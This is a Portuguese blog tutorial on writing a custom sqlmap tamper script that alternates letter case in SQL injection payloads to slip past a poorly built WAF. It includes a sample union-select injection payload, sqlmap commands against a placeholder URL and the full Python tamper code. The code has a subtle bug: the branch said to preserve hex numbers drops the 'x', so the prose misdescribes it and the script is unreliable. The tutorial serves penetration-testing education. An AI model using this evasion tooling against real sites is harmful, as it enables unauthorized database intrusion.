 ```yaml
---
title: "Criando um Tamper personalizado para Sqlmap"
classes: wide
header:
  teaser: /assets/images/Tamper/00.jpg
  overlay_image: /assets/images/Tamper/00.jpg
  overlay_filter: 0.5
ribbon: DarkSlateGray
excerpt: "Nessa postagem mostro o processo de criação de um tamper para ser usado no sqlmap"
description: "Nessa postagem mostro o processo de criação de um tamper para ser usado no sqlmap"
categories:
  - Web Hacking
tags:
  - Sqlmap
  - SQL Injection
  - Evasion
  - WAF Bypassing
  - Python
toc: false
toc_sticky: true
toc_label: "Sumário"
toc_icon: "terminal"
---
```



# Introdução

O sqlmap é uma ferramenta muito utilizada nos testes em aplicações web. Ela é conhecida por ser muito poderosa e é utilizada para automação e exploração de SQL Injection em diferentes cenários

Com o passar do tempo, vários mecanismos de segurança vem sendo implementados nas aplicações, como por exemplo, filtros de input, WAF, etc... Isso faz com que payloads comuns não funcionem nessas aplicações, mesmo que elas estejam vulneráveis

Nesse cenário é necessário criar alternativas para conseguir burlar essas proteções e é ai que surge a necessidade da utilização de um tamper para tratar os payloads enviados

Vamos imaginar um cenário, onde a aplicação realiza um bloqueio para o seguinte payload:

```
Payload = 1' union select 1 #
```

Imaginemos também que esse filtro foi mal implementado, e é possível realizar o baypass da seguinte forma:

```
Bypass = 1' UnIoN sElEcT 1 #
```

No exemplo mostrado acima fica fácil modificar o payload, pois se trata de uma única requisição, porém o sqlmap envia diversos payloads e ficaria inviável fazer essas alterações à mão

Seguindo o mesmo exemplo, vamos ver nessa postagem, a criação de um tamper que realiza isso de forma automatizada, modificando todos os payloads enviados pela ferramenta, para que eles possam seguir o padrão aceito na aplicação

# Escrevendo o script

Como dito anteriormente, a ferramenta envia diversos payloads diferentes e dos mais variados tipos, durante o teste

Para visualizar os payloads que estão sendo enviados pela ferramenta, podemos usar a opção -v3

```
sqlmap -u https://exemplo.com/?id=vuln -p id -v3
```
![](/assets/images/Tamper/ct-01.png){: .align-center}

O tamper precisa receber esses payloads, realizar a alteração, e retornar o valor alterado para a ferramenta

Primeiramente, vou criar o arquivo de nome "*tamper.py*", que vai conter o script criado. O script vai ser desenvolvido em python pois é a mesma linguagem que o sqlmap é escrito

O arquivo precisa ter o seguinte padrão:

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload):
    '''
    Description of your tamper script
    '''

    retVal = payload

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
```

Para entender a estrutura do arquivo, vamos por partes. Primeiramente o script importa a classe "PRIORITY" que é responsável por definir qual será a prioridade do tamper que estamos criando. Caso seja utilizado mais de um tamper ao mesmo tempo é esse o campo que a ferramenta vai consultar para saber qual tamper deve ser executado primeiro

Essa classe é definida no arquivo "*<diretório do sqlmap>/lib/core/enums.py*"

![](/assets/images/Tamper/ct-02.png){: .align-center}

Nesse caso, estou definindo a prioridade como normal

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL
```

Depois disso, está sendo definida a função "*tamper*", que é onde o código do script irá ficar. Por convenção, dentro dessa função também é adicionada uma descrição do script

```
def tamper(payload):
    '''
    descrição do script
    '''
	
	# Código do script aqui
    return retVal
```

Como já sabemos, a nossa função precisa receber o payload, e realizar uma alteração de forma que as letras fiquem alternadas entre maiúsculo e minúsculo. Para isso a minha função ficou dessa forma:

```
def tamper(payload, **kwargs):
  """
  Muda as letras no estilo CaMeL CaSe

  >>> tamper('INSERT')
  'InSeRt'
  """
  retVal = str()

  if payload:
    for i in range(len(payload)):
      # respeita numeros em hexa
        if (payload[i] == 'x') and (payload[i-1] == '0'):
          continue
        try:
          if (i % 2 == 0) or (i == 0):
            retVal += payload[i].upper()
          else:
            retVal += payload[i].lower()
        except:
          retVal += payload[i]
  return retVal
```

O script cria um loop, passando por cada letra do payload, então ele verifica se aquela string começa com "*0x*", se isso acontece, provavelmente se trata de um número em hexadecimal. Para não quebrar o payload, eu simplesmente não faço nada nesse caso 

```
for i in range(len(payload)):
    # respeita numeros em hexa
    if (payload[i] == 'x') and (payload[i-1] == '0'):
	    continue
```

Depois o script verifica a seguinte condição: se for a primeira letra da palavra ou se o resto da divisão desse número por 2 for igual a zero (ou seja, número par), então salve essa letra como maiúscula, se não salva como minúscula

```
try:
    if (i % 2 == 0) or (i == 0):
        retVal += payload[i].upper()
    else:
        retVal += payload[i].lower()
```

Se ele não conseguir fazer isso, então provavelmente não se trata de uma letra. Nesse caso, ele apenas salva o caractere no payload

```
except:
    retVal += payload[i]
```

Por fim o script retorna o resultado

O script completo ficou da seguinte maneira:

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
  """
  Muda as letras no estilo CaMeL CaSe

  >>> tamper('INSERT')
  'InSeRt'
  """
  retVal = str()

  if payload:
    for i in range(len(payload)):
      # respeita numeros em hexa
        if (payload[i] == 'x') and (payload[i-1] == '0'):
          continue
        try:
          if (i % 2 == 0) or (i == 0):
            retVal += payload[i].upper()
          else:
            retVal += payload[i].lower()
        except:
          retVal += payload[i]
  return retVal
```

Após a criação do arquivo, para que ele funcione corretamente, é necessário criar um novo arquivo de nome "\_\_init\_\_.py" sem conteúdo no mesmo diretório que o arquivo do tamper está

Então, basta executar novamente o sqlmap, mas dessa vez, passando o tamper criado

```
sqlmap -u https://exemplo.com/?id=vuln -p id -v3 --tamper=tamper.py
```

![](/assets/images/Tamper/ct-03.png){: .align-center}

Como pode ser visto na imagem acima, o tamper está funcionando e todos os payloads então sendo alterados